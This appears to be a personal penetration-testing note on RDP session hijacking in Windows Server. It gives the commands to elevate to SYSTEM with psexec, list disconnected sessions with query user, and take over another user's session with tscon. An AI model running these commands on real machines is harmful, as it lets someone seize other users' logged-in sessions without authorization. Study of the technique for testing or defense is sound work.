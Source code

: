 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#psexec #tscon
# RDP Session Hijacking
- If an administrator uses RDP to log in to a machine and Instead of logging off the session, closes the RDP session, the session remains open on the server indefinately.
- If we have Administrative rights on a machine, we can reopen the session.
- Only works on Windows Server 2016
- We need to elevate from `Administrator` to `SYSTEM`.
```powershell
# First elevate to SYSTEM
psexec64.exe -s cmd.exe

# List the current rdp sessions
query user
# A Session with "Disc" state means that is left open by someone and currently not being used.

# Connect to active session using tscon
# tscon <id_to_connect_to> /dest:<current_session_name>
tscon 2 /dest:rdp-tcp#6
```
